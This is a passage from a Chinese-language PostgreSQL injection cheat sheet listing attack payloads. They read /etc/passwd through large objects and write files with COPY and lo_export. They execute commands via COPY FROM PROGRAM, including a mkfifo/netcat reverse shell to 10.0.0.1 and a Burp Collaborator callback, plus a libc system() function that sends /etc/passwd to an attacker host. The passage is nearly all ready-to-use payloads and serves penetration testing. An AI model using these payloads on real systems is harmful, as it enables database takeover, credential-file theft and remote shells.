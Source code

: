     ```sql
    SELECT lo_import('/etc/passwd'); -- 将文件创建为大对象并返回 OID
    SELECT lo_get(16420); -- 使用上面返回的 OID
    SELECT * from pg_largeobject; -- 或者获取所有大对象及其数据
    ```

### PostgreSQL 文件写入

* 使用 `COPY`

    ```sql
    CREATE TABLE nc (t TEXT);
    INSERT INTO nc(t) VALUES('nc -lvvp 2346 -e /bin/bash');
    SELECT * FROM nc;
    COPY nc(t) TO '/tmp/nc.sh';
    ```

* 使用 `COPY`（一行）

    ```sql
    COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';
    ```

* 使用 `lo_from_bytea`、`lo_put` 和 `lo_export`

    ```sql
    SELECT lo_from_bytea(43210, 'your file data goes in here'); -- 创建一个具有 OID 43210 和一些数据的大对象
    SELECT lo_put(43210, 20, 'some other data'); -- 在偏移量 20 处向大对象附加数据
    SELECT lo_export(43210, '/tmp/testexport'); -- 将数据导出到 /tmp/testexport
    ```

## PostgreSQL 命令执行

### 使用 COPY TO/FROM PROGRAM

运行 Postgres 9.3 及以上版本的安装具有功能，允许超级用户和具有 '`pg_execute_server_program`' 权限的用户通过 `COPY` 管道到外部程序。

```sql
COPY (SELECT '') to PROGRAM 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```

```sql
CREATE TABLE shell(output text);
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f';
```

### 使用 libc.so.6

```sql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
```

## PostgreSQL WAF 绕过
